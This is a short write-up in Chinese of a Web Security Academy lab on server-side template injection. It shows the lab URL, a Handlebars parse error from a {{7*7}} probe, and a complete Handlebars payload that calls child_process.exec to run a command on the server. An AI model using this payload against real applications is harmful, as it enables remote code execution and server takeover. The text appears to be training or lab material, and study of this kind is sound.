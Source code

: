 ```
https://acf81f5d1ecb3510c00024bd00d70072.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock
```


參數給 `{{7*7}}` 會噴錯

```
/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267
            throw new Error(str);
            ^

Error: Parse error on line 1:
{{7*7}}
--^
Expecting &apos;ID&apos;, &apos;STRING&apos;, &apos;NUMBER&apos;, &apos;BOOLEAN&apos;, &apos;UNDEFINED&apos;, &apos;NULL&apos;, &apos;DATA&apos;, got &apos;INVALID&apos;
    at Parser.parseError (/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267:19)
    at Parser.parse (/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:336:30)
    at HandlebarsEnvironment.parse (/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/base.js:46:43)
    at compileInput (/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:515:19)
    at ret (/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:524:18)
    at [eval]:5:13
    at ContextifyScript.Script.runInThisContext (vm.js:50:33)
    at Object.runInThisContext (vm.js:139:38)
    at Object.&lt;anonymous&gt; ([eval]-wrapper:6:22)
    at Module._compile (module.js:652:30)
```

可以看出是 JS handlebars 的 SSTI


把下面的 Exploit 轉 URLEncode 塞進去
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('id');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
